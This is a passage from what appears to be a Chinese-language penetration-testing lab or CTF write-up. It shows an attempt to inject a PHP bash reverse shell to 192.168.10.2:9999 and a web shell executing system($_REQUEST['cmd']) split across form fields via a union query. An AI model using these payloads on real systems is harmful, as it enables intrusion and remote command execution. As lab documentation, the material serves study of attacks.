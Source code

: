 尝试直接在这里进行注入下面的语句

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.2/9999 0>&1'"); ?>
```

![](./pic-9/14.jpg)

那么在前面使用`union`查询的时候，数字`2`和`3`是在一行显示，并且中间有空格的，那么可以根据这个进行拼接反弹`shell`的代码

```shell
firstname:
	<?php 
lastname:
	system($_REQUEST["cmd"]);?>
```

上传成功，但是无法利用

![](./pic-9/15.jpg)
